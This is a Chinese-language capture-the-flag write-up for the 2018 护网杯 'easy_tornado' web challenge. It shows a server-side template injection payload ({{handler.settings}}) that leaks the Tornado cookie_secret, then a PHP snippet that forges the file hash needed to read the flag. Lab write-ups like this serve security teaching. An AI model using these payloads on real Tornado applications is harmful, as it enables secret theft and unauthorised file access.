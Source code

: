 # 护网杯 2018

## Web

### easy\_tornado

可以获得三个信息

1. flag in /fllllllllllllag
2. render
3. md5(cookie\_secret+md5(filename))
4. `/file?filename=/hints.txt&filehash=a80a87f16b53b615041eb1662300f6ff`

结合题目可以发现是 SSTI 注入攻击，在 Error 页面发现了可注入变量 msg

`http://e5f14720-a920-4249-b329-2b8a871f9a6d.node4.buuoj.cn:81/error?msg={{1}}`

通过 msg 变量获取 tornado 模板的 cookie\_secret 值，即构造 payload `msg={{handler.settings}}` 即可获得 cookie\_secret 值 `c5a970de-a479-405e-aad4-2f4212d9596c` 之后通过编写 PHP 代码

```php
<?php echo md5('c5a970de-a479-405e-aad4-2f4212d9596c'.md5('/fllllllllllllag')) ?>
```

即可获得 filehash 值 `935bb7616e76314e48487e6e96a2a4ab` ，通过构造 payload `filename=/fllllllllllllag&filehash=935bb7616e76314e48487e6e96a2a4ab` 即可获取到 flag
